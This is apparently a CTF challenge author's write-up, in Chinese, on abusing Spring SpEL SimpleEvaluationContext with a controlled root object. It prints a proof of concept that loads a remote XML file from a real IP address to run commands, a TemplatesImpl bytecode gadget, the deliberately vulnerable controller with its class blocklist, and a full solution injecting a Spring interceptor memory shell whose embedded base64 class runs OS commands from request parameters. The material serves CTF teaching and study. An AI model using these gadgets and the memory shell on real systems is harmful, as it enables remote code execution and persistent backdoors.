






# ez_zhuawa出题记录-先知社区

> **来源**: https://xz.aliyun.com/news/16293  
> **文章ID**: 16293

---

# ez\_zhuawa出题记录

## 前言

之前打xctf分站赛的时候有一道题，2024 xctf finall ezspel，这个题出题的思路也是通过在SimpleEvaluationContext的条件下，如果能控制root对象，我们就能实现恶意利用

但是这个题不管原理的话就是会调用root对象的getter方法

## ezspel的考察点

POC

```
package com.ctf.ezspel.controller;

import org.springframework.context.support.ClassPathXmlApplicationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

import org.springframework.expression.Expression;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.SimpleEvaluationContext;

import java.lang.reflect.Array;

/* loaded from: Util.class */
public class Util {
    public static void main(String[] args) {

        buildArray("org.springframework.context.support.ClassPathXmlApplicationContext","#root[0]='http://49.232.222.195:8000/poc.xml'");

    }
    public static String buildArray(String name, String expr) {
        try {
            Class clazz = Class.forName(name);
            Object array = Array.newInstance((Class<?>) clazz, 1);
            Object object = Util.eval(array, expr);
            return object.getClass().getName();
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        }
    }
    public static Object eval(Object root, String expr) {
        SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
        SpelExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(expr);
        return expression.getValue(context, root);
    }
}
```

远程xml文件

```
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="evil" class="java.lang.String">
        <constructor-arg value="#{T(Runtime).getRuntime().exec('calc')}"/>
    </bean>
</beans>
```

可以看到是考察的是调用构造函数的

关键的过程是在

root对象不是基础类型，所以会来到最后的else，进入convertValue方法

```
private void setArrayElement(TypeConverter converter, Object ctx, int idx, @Nullable Object newValue, Class<?> arrayComponentType) throws EvaluationException {
    if (arrayComponentType == Boolean.TYPE) {
        boolean[] array = (boolean[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Boolean)this.convertValue(converter, newValue, Boolean.TYPE);
    } else if (arrayComponentType == Byte.TYPE) {
        byte[] array = (byte[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Byte)this.convertValue(converter, newValue, Byte.TYPE);
    } else if (arrayComponentType == Character.TYPE) {
        char[] array = (char[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Character)this.convertValue(converter, newValue, Character.TYPE);
    } else if (arrayComponentType == Double.TYPE) {
        double[] array = (double[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Double)this.convertValue(converter, newValue, Double.TYPE);
    } else if (arrayComponentType == Float.TYPE) {
        float[] array = (float[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Float)this.convertValue(converter, newValue, Float.TYPE);
    } else if (arrayComponentType == Integer.TYPE) {
        int[] array = (int[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Integer)this.convertValue(converter, newValue, Integer.TYPE);
    } else if (arrayComponentType == Long.TYPE) {
        long[] array = (long[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Long)this.convertValue(converter, newValue, Long.TYPE);
    } else if (arrayComponentType == Short.TYPE) {
        short[] array = (short[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = (Short)this.convertValue(converter, newValue, Short.TYPE);
    } else {
        Object[] array = (Object[])ctx;
        this.checkAccess(array.length, idx);
        array[idx] = this.convertValue(converter, newValue, arrayComponentType);
    }

}
```

会调用ObjectToObjectConverter的convert方法



## ez\_zhuawa考察点

而这道题其实是基于ezspel考察的，当时是发现了还可以调用root对象的getter方法

可以通过如下代码测试

```
package SimpleEvaluationcontext;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.expression.Expression;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.SimpleEvaluationContext;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class SpelExample {
    public static Object eval(Object root, String expr) {
        SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
        SpelExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(expr);
        return expression.getValue(context, root);
    }

    public static void main(String[] args) throws Exception {

        TemplatesImpl templates =new TemplatesImpl();
        byte [] code = Files.readAllBytes(Paths.get("Test.class"));
        setFieldValue(templates, "_bytecodes", new byte[][] {code});
        setFieldValue(templates, "_name", "calc");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        // 使用eval方法获取name属性
        String name = (String) eval(templates, "outputProperties");
        System.out.println("Name: " + name);

    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

Test.class内容

```
import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Test extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



关键点分析

getValueInternal:104, PropertyOrFieldReference

其中关键代码如下

```
`TypedValue result = readProperty(contextObject, evalContext, this.name);`
```



然后跟进readProperty方法，传入的参数进入 `return accessor.read(evalContext, contextObject.getValue(), name);` 有反射那味道了，进入read方法   调用了我们的public abstract java.util.Properties javax.xml.transform.Templates.getOutputProperties()方法

至于method如何控制可以去调试调试

## 出题考虑

首先我就是基于上面的结构改的代码，然后为了防止再次调用构造方法触发的恶意利用，然后对接的时候线下是不出网的，所以我但是都没有ban一些类

但是最后因为在酒店，设备等问题，只能出网了

路由代码

```
package org.example.GCCTF.controller;
import org.example.GCCTF.SecurityObjectInputStream;
import org.springframework.expression.Expression;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.SimpleEvaluationContext;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.*;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.Arrays;
import java.util.Base64;
@Controller
@RequestMapping("/eval")
public class SpelController {
    @GetMapping("/execute")
    @ResponseBody
    public String welcome() {
        return "<html>" +
                "<head>" +
                "<title>欢迎</title>" +
                "<style>" +
                "body { " +
                "    margin: 0; " +
                "    height: 100vh; " +
                "    display: flex; " +
                "    justify-content: center; " +
                "    align-items: center; " +
                "    font-family: Arial, sans-serif; " +
                "    font-size: 3em; " +
                "    background: linear-gradient(270deg, #ff9a9e, #fad0c4, #ffd1ff, #a1c4fd, #c2e9fb, #fef253, #ff7300); " +
                "    background-size: 400% 400%; " +
                "    animation: gradient 15s ease infinite; " +
                "}" +
                "@keyframes gradient {" +
                "    0% { background-position: 0% 50%; }" +
                "    50% { background-position: 100% 50%; }" +
                "    100% { background-position: 0% 50%; }" +
                "}" +
                "</style>" +
                "</head>" +
                "<body>" +
                "<h1>欢迎来到我的挑战,但是我可不会为难你们的QAQ</h1>" +
                "</body>" +
                "</html>";

    }

    @PostMapping("/execute")
    @ResponseBody
    public String executeEval(@RequestParam("data") String base64code,
                              @RequestParam("param") String param) throws Exception {
        try {
            String res = (String) eval(deserialize(base64code), param);

        } catch (SecurityException ex) {
            throw new SecurityException("反序列化过程中检测到安全问题：" + ex.getMessage());
        }
        return "hello";
    }
    public static Object eval(Object root, String expr) {
        SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
        SpelExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(expr);
        return expression.getValue(context, root);
    }

    public static Object deserialize(String base64String) throws IOException, ClassNotFoundException {
        String data1= Arrays.toString(Base64.getDecoder().decode(base64String));
        if (data1.contains("bash") || data1.contains("echo")) {
            throw new IllegalArgumentException("怎么说，是不是要打内存马了");
        }
        byte[] data = Base64.getDecoder().decode(base64String);
        try (ByteArrayInputStream bais = new ByteArrayInputStream(data);
             SecurityObjectInputStream in = new SecurityObjectInputStream(bais)) {
            return in.readObject();
        }
    }
}
```

但是想着怎么限制不能反弹shell，去打内存马，但是最后还是算了，只能降低难度反弹shell秒了

这里我防了一手直接有人用反序列化秒了

所以禁用了一些常见的入口类

```
package org.example.GCCTF;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.rowset.JdbcRowSetImpl;
import org.springframework.context.support.ClassPathXmlApplicationContext;
import org.springframework.context.support.FileSystemXmlApplicationContext;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.lang.reflect.InvocationHandler;
import java.security.SignedObject;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.List;
import javax.management.BadAttributeValueExpException;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.*;

public class SecurityObjectInputStream extends ObjectInputStream {
    private List<String> restrictedClasses;

    public SecurityObjectInputStream(InputStream inputStream) throws IOException {
        super(inputStream);
        this.restrictedClasses = new ArrayList<>();
        this.restrictedClasses.add(POJONode.class.getName());
        this.restrictedClasses.add(BadAttributeValueExpException.class.getName());
        this.restrictedClasses.add(InvocationHandler.class.getName());
        this.restrictedClasses.add(SignedObject.class.getName());
        this.restrictedClasses.add(RMIConnector.class.getName());
        this.restrictedClasses.add(HashMap.class.getName());
        this.restrictedClasses.add(Hashtable.class.getName());
        this.restrictedClasses.add(ClassPathXmlApplicationContext.class.getName());
        this.restrictedClasses.add(FileSystemXmlApplicationContext.class.getName());
        this.restrictedClasses.add(JdbcRowSetImpl.class.getName());
        this.restrictedClasses.add(XString.class.getName());
        this.restrictedClasses.add(UIDefaults.class.getName());

    }
    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        if (this.restrictedClasses.contains(desc.getName())) {
            throw new SecurityException("Detected restricted class: " + desc.getName());
        }
        return super.resolveClass(desc);
    }
}
```

ban了ClassPathXmlApplicationContext和FileSystemXmlApplicationContext防止再次通过构造方法的非预期，当然还有一种解法就是找其他的，我是没有找到的

POJONode防一手原生的jackson反序列化

```
HashMap，Hashtable

```

这个常用的入口类

## WP

简单来说会调用a对象的b方法，所以我们可以选择a对象为TemplatesImpl，b方法为getOutputProperties

可以动态字节码加载

只需要打一个内存马就可以了

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import org.springframework.web.servlet.support.RequestContextUtils;

public class inject extends AbstractTranslet{
    static {
        try {
            WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes) RequestContextHolder.currentRequestAttributes()).getRequest());
            org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping) context.getBean(RequestMappingHandlerMapping.class);

            java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
            field.setAccessible(true);
            java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>) field.get(abstractHandlerMapping);

            String className = "com.example.spring.magicInterceptor";
            //加载com.example.spring.magicInterceptor类的字节码
            String b64 = "yv66vgAAADQAhwoAIABGCAA4CwBHAEgLAEkASggASwgATAoATQBOCgAMAE8IAFAKAAwAUQcAUgcAUwgAVAgAVQoACwBWCABXCABYBwBZCgALAFoKAFsAXAoAEgBdCABeCgASAF8KABIAYAoAEgBhCgASAGIKAGMAZAoAYwBlCgBjAGIHAGYHAGcHAGgBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAJUxjb20vZXhhbXBsZS9zcHJpbmcvbWFnaWNJbnRlcmNlcHRvcjsBAAlwcmVIYW5kbGUBAGQoTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlO0xqYXZhL2xhbmcvT2JqZWN0OylaAQABcAEAGkxqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXI7AQAGd3JpdGVyAQAVTGphdmEvaW8vUHJpbnRXcml0ZXI7AQABbwEAEkxqYXZhL2xhbmcvU3RyaW5nOwEAAWMBABNMamF2YS91dGlsL1NjYW5uZXI7AQAHcmVxdWVzdAEAJ0xqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0OwEACHJlc3BvbnNlAQAoTGphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlc3BvbnNlOwEAB2hhbmRsZXIBABJMamF2YS9sYW5nL09iamVjdDsBAARjb2RlAQANU3RhY2tNYXBUYWJsZQcAUwcAaQcAUgcAWQcAZwcAagcAawcAbAcAZgEACkV4Y2VwdGlvbnMBAApTb3VyY2VGaWxlAQAVbWFnaWNJbnRlcmNlcHRvci5qYXZhDAAhACIHAGoMAG0AbgcAawwAbwBwAQAAAQAHb3MubmFtZQcAcQwAcgBuDABzAHQBAAN3aW4MAHUAdgEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMACEAdwEABy9iaW4vc2gBAAItYwEAEWphdmEvdXRpbC9TY2FubmVyDAB4AHkHAHoMAHsAfAwAIQB9AQACXEEMAH4AfwwAgACBDACCAHQMAIMAIgcAaQwAhACFDACGACIBABNqYXZhL2xhbmcvRXhjZXB0aW9uAQAjY29tL2V4YW1wbGUvc3ByaW5nL21hZ2ljSW50ZXJjZXB0b3IBAEFvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9zZXJ2bGV0L2hhbmRsZXIvSGFuZGxlckludGVyY2VwdG9yQWRhcHRlcgEAE2phdmEvaW8vUHJpbnRXcml0ZXIBACVqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlcnZsZXRSZXF1ZXN0AQAmamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXJ2bGV0UmVzcG9uc2UBABBqYXZhL2xhbmcvT2JqZWN0AQAMZ2V0UGFyYW1ldGVyAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAAlnZXRXcml0ZXIBABcoKUxqYXZhL2lvL1ByaW50V3JpdGVyOwEAEGphdmEvbGFuZy9TeXN0ZW0BAAtnZXRQcm9wZXJ0eQEAC3RvTG93ZXJDYXNlAQAUKClMamF2YS9sYW5nL1N0cmluZzsBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAAVzdGFydAEAFSgpTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgEADHVzZURlbGltaXRlcgEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvdXRpbC9TY2FubmVyOwEAB2hhc05leHQBAAMoKVoBAARuZXh0AQAFY2xvc2UBAAV3cml0ZQEAFShMamF2YS9sYW5nL1N0cmluZzspVgEABWZsdXNoACEAHwAgAAAAAAACAAEAIQAiAAEAIwAAAC8AAQABAAAABSq3AAGxAAAAAgAkAAAABgABAAAABwAlAAAADAABAAAABQAmACcAAAABACgAKQACACMAAAG6AAYACQAAAK8rEgK5AAMCADoEGQTGAKEsuQAEAQA6BRIFOgYSBrgAB7YACBIJtgAKmQAiuwALWQa9AAxZAxINU1kEEg5TWQUZBFO3AA86B6cAH7sAC1kGvQAMWQMSEFNZBBIRU1kFGQRTtwAPOge7ABJZGQe2ABO2ABS3ABUSFrYAFzoIGQi2ABiZAAsZCLYAGacABRkGOgYZCLYAGhkFGQa2ABsZBbYAHBkFtgAdpwAFOgUDrASsAAEADwCmAKkAHgADACQAAABGABEAAAAKAAoACwAPAA0AFwAOABsAEAArABEASgATAGYAFQB8ABYAkAAXAJUAGACcABkAoQAaAKYAHACpABsAqwAdAK0AHwAlAAAAZgAKAEcAAwAqACsABwAXAI8ALAAtAAUAGwCLAC4ALwAGAGYAQAAqACsABwB8ACoAMAAxAAgAAACvACYAJwAAAAAArwAyADMAAQAAAK8ANAA1AAIAAACvADYANwADAAoApQA4AC8ABAA5AAAAOQAH/gBKBwA6BwA7BwA6/AAbBwA8/AAlBwA9QQcAOv8AGgAFBwA+BwA/BwBABwBBBwA6AAEHAEIBAQBDAAAABAABAB4AAQBEAAAAAgBF"; // magicInterceptor类class的base64编码
            byte[] bytes = sun.misc.BASE64Decoder.class.newInstance().decodeBuffer(b64);
            java.lang.ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            java.lang.reflect.Method m0 = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
            m0.setAccessible(true);
            m0.invoke(classLoader, className, bytes, 0, bytes.length);
            //添加com.example.spring.magicInterceptor类到adaptedInterceptors
            adaptedInterceptors.add(classLoader.loadClass(className).newInstance());

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.springframework.expression.Expression;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.SimpleEvaluationContext;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class Util {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates =new TemplatesImpl();
        byte [] code = Files.readAllBytes(Paths.get("F:\\IntelliJ IDEA 2023.3.2\\javascript\\CTF\\ctets\\target\\classes\\inject.class"));
        setFieldValue(templates, "_bytecodes", new byte[][] {code});
        setFieldValue(templates, "_name", "calc");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        serialize(templates);

    }
    public static String serialize(Object obj) throws IOException {
        try (ByteArrayOutputStream baos = new ByteArrayOutputStream();
             ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(obj);
            byte[] serializedBytes = baos.toByteArray();
            System.out.println(Base64.getEncoder().encodeToString(serializedBytes));
            return Base64.getEncoder().encodeToString(serializedBytes);
        }
    }
    public static Object deserilize(String base64String) throws IOException, ClassNotFoundException {
        byte[] data = Base64.getDecoder().decode(base64String);
        try (ByteArrayInputStream bais = new ByteArrayInputStream(data);
             ObjectInputStream in = new ObjectInputStream(bais)) {
            return in.readObject();
        }
    }
    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

}
```


